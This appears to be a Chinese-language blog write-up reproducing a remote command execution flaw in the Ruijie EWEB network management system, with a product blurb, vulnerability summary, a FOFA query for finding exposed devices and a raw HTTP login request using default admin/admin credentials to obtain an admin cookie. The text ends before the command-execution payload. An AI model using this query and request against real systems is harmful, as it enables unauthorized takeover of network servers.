

# 锐捷EWEB网管系统 RCE漏洞复现

### 0x01 产品简介

  [锐捷](https://so.csdn.net/so/search?q=%E9%94%90%E6%8D%B7&spm=1001.2101.3001.7020)网管系统是由北京锐捷数据时代科技有限公司开发的新一代基于云的网络管理软件，以“数据时代创新网管与信息安全”为口号，定位于终端安全、IT运营及企业服务化管理统一解决方案。

### 0x02 漏洞概述

  Ruijie-EWEB 网管系统 flwo.control.php 中的 type 参数存在命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="Ruijie-EWEB网管系统"



### 0x04 漏洞复现 

获取admin用户有效cookie

```cobol
POST /ddi/server/login.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=admin&password=admin?
```
